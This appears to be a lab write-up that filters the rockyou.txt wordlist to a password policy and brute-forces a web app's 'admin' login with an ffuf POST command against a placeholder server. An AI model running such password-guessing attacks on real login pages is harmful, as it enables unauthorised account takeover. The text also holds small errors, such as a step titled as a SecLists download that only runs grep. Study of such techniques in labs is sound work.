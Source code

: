 # Brute-Forcing Passwords

### What is the password of the user 'admin'?

In this assessment we already have the user 'admin' and the goal is to get the his password. To accomplish that will use the rockyou.txt wordlist, but tailor the passwords to the application requirements in order to send unnecessary requests.

Password Requirments:

* Contains at least one upper-case character
* Contains at least one lower-case character
* Contains at least one digit
* Minimum length of 10 characters

**Step 1 -** Download the SecLists wordlist:

* {% code overflow="wrap" %}
  ```
  grep '[[:upper:]]' /usr/share/wordlists/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
  ```
  {% endcode %}
* Check your rockyou.txt directory.

**Step 2 -** Intercept the application POST login parameters:

* This can be done through the Inspect Element or with Burp Suite

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 3 -** Brute-force the password:

* {% code overflow="wrap" %}
  ```
  ffuf -w ./custom_wordlist.txt -u http://SERVER_IP:SERVER_PORT/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
  ```
  {% endcode %}

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And after a few seconds we manage to get the admin passowrd!
